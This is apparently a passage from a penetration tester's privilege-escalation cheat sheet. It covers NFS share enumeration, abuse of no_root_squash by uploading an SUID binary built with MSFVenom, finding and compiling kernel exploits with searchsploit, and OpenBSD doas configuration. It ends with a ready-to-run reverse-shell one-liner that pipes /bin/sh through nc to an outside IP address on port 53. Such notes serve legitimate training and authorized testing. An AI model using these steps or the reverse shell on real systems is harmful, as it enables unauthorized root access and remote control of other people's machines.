 ### 19) NFS
Show the NFS server's export list:
`showmount -e <target>`
Mount an NFS share:
`mount -o rw,vers=2 <target>:<share> <local_directory>`

Root Squashing
**Although prevented by default, `no_root_squash` is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as "root" can create files on the NFS share as the local root user.**

Upload an SUID-able ELF with MSFVenom to the NFS share and execute.

### 20) Finding Kernel Exploits
Common Ubuntu 16.04:
https://www.exploit-db.com/exploits/44298

Automatically:
`linux-exploit-suggester-2`
`./linux-exploit-suggester-2.pl -k 2.6.32`

Manually:
1) Enumerate kernel version
	1) `uname -a`
	2) `cat /etc/*-release`
	3) `cat /proc/version`
	4) `hostnamectl`
2) Find matching exploits (Google, ExploitDB, GitHub)
	1) `searchsploit linux kernel 2.6.32 priv esc`
	2) `searchsploit linux kernel 2.6 debian priv esc`
	3) `searchsploit "4.4.0 linux kernel privilege escalation"`
3) Compile and run (caution, some may cause instability)
### ^M bad interpreter (Windows Compiled)
If error is something like `^M bad interpreter`, this was compiled on Windows. Run `dos2unix <script>` to fix.

Dirty COW affects Linux kernel <4.8.3.

# OpenBSD
- `locate` is available
- `doas` is an alternative to `sudo`
	- See config file `doas.conf` in either `/etc` or `/usr/local/etc`

Example `doas.conf`
```
permit nopass andrew as root cmd service args apache24 onestart
```
This indicates the cmd that can be run as root is `service` with the args `apache24 onestart`; such as: `doas -u root service apache24 onestart`
### OpenBSD Reverse Shell
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.196 53 >/tmp/f
```

